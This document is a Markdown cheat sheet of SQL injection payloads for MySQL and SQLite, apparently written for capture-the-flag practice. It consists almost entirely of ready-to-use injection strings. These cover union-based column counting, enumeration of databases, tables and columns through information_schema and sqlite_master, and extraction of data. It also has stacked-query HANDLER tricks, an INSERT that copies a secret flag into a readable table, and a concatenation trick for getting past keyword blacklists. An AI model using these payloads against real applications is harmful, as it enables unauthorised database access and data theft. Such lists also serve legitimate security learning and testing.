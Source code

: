 ## MySQL

- Extract number column

  - `'union select 1,2,3#`
  - `' order by 3#` 

- Confirming injection visible

  - `'union select @@version,2,3#`

- Extract database names

  - `';show databases;#`
  - `'union select group_concat(0x7c,schema_name,0x7c),2,3 from information_schema.schemata#`

- Extract table neams from database

  - `';show tables;#`
  - `'union select group_concat(0x7c,table_name,0x7c),2,3 from information_schema.tables where table_schema='<DATABASE_NAME>'#`

- Extract column names from table name
  
  ```
  ';show columns from <TABLE_NAME>;#
  ';show columns from `1919810931114514`;# if table name is number it must be queried with backtricks
  'union select group_concat(0x7c,column_name,0x7c),2,3 from information_schema.columns where table_name='<TABLE_NAME>'#
  ```

- Extract data

  - `'union select <COLUMN_NAME>,'b','c' from <DATABASE_NAME>.<TABLE_NAME> where id='1'#`

### Tricks

  - Read data from column name
    ```
    1'; handler <COLUMN_NAME> open as `a`; handler `a` read next;#
    ```


## SQLite
- Extract previous query
  - `union select sql from sqlite_master`

- Extract table names 
  - `union select name from sqlite_master where type='table'--`
  
- Extract column names from table name
  - `union select sql from sqlite_master where type='table' and name='<table_name>'--`
  
- Extract data using column and table name
  - `union select <column_name> from <table_name> where id=1--`

### Insert
  - `INSERT INTO notes(username, notes) VALUES('admin', (SELECT flag FROM secret LIMIT 0,1)); -- -`

### Tricks

  - Bypass blacklist words
    - `ad'||'min`

